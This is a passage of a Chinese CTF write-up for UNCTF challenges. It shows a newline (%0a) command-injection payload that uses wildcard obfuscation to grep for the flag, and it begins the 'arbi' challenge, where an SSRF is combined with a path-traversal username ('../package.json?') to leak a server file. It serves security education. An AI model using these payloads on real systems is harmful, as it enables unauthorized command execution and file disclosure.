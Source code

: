 另外参数 *a* 被过滤掉的则是 **|***

同样别的地方也会存在这个问题，比如markdown

![img15](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img15.png)

然后可以利用%0a进行命令注入

结合一下非预期解的思路，可以得到payload

> ?a=\\\&b=%0a/b??/gr[d-f]p%20-R%20ctf%20%23

![img16](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img16.png)

也可以像[安全客](https://www.anquanke.com/post/id/190613#h3-7)上边的用cat去读flag，不过找flag路径的过程比较麻烦

## arbi

完全不会的一题，基本按照wp跟[出题思路](https://xz.aliyun.com/t/6685)来的

#### step1：

不熟悉express的我去git上随便找了个项目摸索一下项目结构

地址：[https://github.com/parse-community/parse-server](https://github.com/parse-community/parse-server)

首先注册登录进去，可以看到很明显的ssrf

![img17](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img17.png)



然后注册用户名为 `../package.json?` （没有任何过滤，所以可以直接注册）
**?** 刚好在解析jpg之前造成截断，然后把解析出的文件下载下来

```json
{
  "name": "arbi",
  "version": "1.0.0",
  "description": "flag in /flag",
  "main": "mainapp.js",
  "directories": {
    "test": "test"
  },
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "evoA",
  "license": "ISC",
  "dependencies": {
    "axios": "^0.19.0",
    "cookie-parser": "^1.4.4",
    "express": "^4.17.1",
    "express-session": "^1.16.2",
    "jade": "^1.11.0",
    "jsonwebtoken": "^8.5.1",
    "session-file-store": "^1.3.1"
  }
}
```
